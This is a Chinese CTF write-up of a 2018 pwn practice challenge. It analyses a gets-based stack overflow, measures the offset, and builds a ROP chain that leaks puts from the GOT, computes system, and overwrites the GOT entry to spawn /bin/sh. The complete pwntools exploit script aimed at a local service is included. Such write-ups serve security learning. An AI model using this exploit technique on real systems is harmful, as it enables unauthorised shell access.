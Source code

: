 ```yaml
---
layout:     post
title:      "2018铁三个人赛样题writeup"
subtitle:   " \"覆写got表\""
date:       2018-02-12 12:00:00
author:     "Chris"
catalog: true
tags:
    - Pwn
 
---
```


>传送门

[源文件下载](https://github.com/yxshyj/project/tree/master/pwn/2018%E9%93%81%E4%B8%89%E4%B8%AA%E4%BA%BA%E8%B5%9B%E6%A0%B7%E9%A2%98)

## 0x00 程序分析
使用IDA pro 打开程序文件

![](https://i.imgur.com/16hax4G.png)

程序存在典型的栈溢出，使用gets没有限制输入的长度，而且存在gets，puts等函数调用。
 
运行程序

![](https://i.imgur.com/Wn8NFmk.png)

长度过长的时候会导致程序崩溃。

检查程序的保护措施

![](https://i.imgur.com/r00sAnm.png)

## 0x01 测量偏移长度
1)  使用pwntools 产生150个垃圾字符

pip install pwntools 之后

pwn cyclic 150

![](https://i.imgur.com/eynMELO.png)

将这些字符串输出到一个test文件中

2)  gdb 调试

![](https://i.imgur.com/krUzqBd.png)

查看gdb的调试信息

![](https://i.imgur.com/u0dZ1WC.png)

图中显示运行到ret 处停止，ret 指令 相当于 pop rax ; jmp rax

也就是从栈顶取值，并跳转到这个值的地址。

栈顶的值是kaaa 由此得偏移量为40。

![](https://i.imgur.com/klPeu5U.png)

## 0x02 漏洞利用思路

现在可以利用栈溢出让程序跳转到任意位置，但是由于程序开启了NX，且系统中开启了ASLR，所以采用ROP技术，构造出一个system(“/bin/sh”).
system函数在libc中，且每次运行都会变化，我们通过构造payload泄露libc中的另一个函数puts在GOT表中的真实地址，puts和system 在libc中的偏移是固定的，进而推算出system地址。
再次构造ROP 使用gets函数将put函数的GOT地址覆盖为system函数地址，然后再跳转到put即可实现getshell。
 
1)  泄露puts函数的GOT地址
首先收集gets的plt地址 和 puts的plt，got地址。

![](https://i.imgur.com/AAdxxpE.png)

需要构造 puts(puts_got)

在64位中通过寄存器传递参数 依次是rdi,rsi,rdx,r10,r8,r9

使用ROPgadget 查找 pop rdi;ret;  用于设置puts函数的第一个参数。

`ROPgadget --binary ./tie3_pwn --only "pop|ret"`

![](https://i.imgur.com/Wc5KnZl.png)

pop rdi ; ret ; 的地址是0x4006f3
 
构造payload  `pop_rdi + puts_got + puts_plt `

![](https://i.imgur.com/P4l6ru1.png)

运行结果如下

![](https://i.imgur.com/aVYERT3.png)

 
到此已经成功的获取到了put的函数地址。
 
计算偏移

```python
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
system_off = libc.symbols['system']
puts_off = libc.symbols['puts']
off = system_off - puts_off
```
此时system的地址也知道了。
 
2)  将put替换为system地址获得shell

使用gets函数，构造gets(puts_got)  ，然后再构造system(“/bin/sh”)
 
在原来的基础上

 pop_rdi + puts_got + puts_plt  

 +pop_rdi+puts_got+gets_plt  此时已经构造好覆盖put函数got表的payload
 
 +pop_rdi + bin_sh + puts_plt   执行system(“/bin/sh”)

 

最后完整的payload如下

```python
from pwn import *

context.log_level = "debug"

e = ELF("./tie3pwn")
puts_plt = e.plt['puts']
gets_plt = e.plt['gets']
puts_got = e.got['puts']
 
print "puts_plt: "+hex(puts_plt)
print "gets_plt: "+hex(gets_plt)
print "puts_got: "+hex(puts_got)
 
pop_rdi = 0x4006f3
print "pop_rdi: "+hex(pop_rdi)
 
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
system_off = libc.symbols['system']
puts_off = libc.symbols['puts']
off = system_off - puts_off
 
payload = "A"*40+p64(pop_rdi)+p64(puts_got)+p64(puts_plt)
payload += p64(pop_rdi)+p64(puts_got)+p64(gets_plt)
payload += p64(pop_rdi)+p64(puts_got+8)+p64(puts_plt)
 
s = remote("127.0.0.1",8888)
s.recvuntil(":")
s.sendline(payload)
s.recvuntil("tie3\n")
 
puts_addr = u64(s.recvuntil("\n")[:-1].ljust(8,"\x00"))
print "puts_addr: "+hex(puts_addr)
system_addr = puts_addr+off
print "system_addr: "+hex(system_addr)
 
s.sendline(p64(system_addr)+"/bin/sh\x00")
s.interactive()
 ```

运行结果如下 为了方便没有显示调试信息

![](https://i.imgur.com/aVYERT3.png)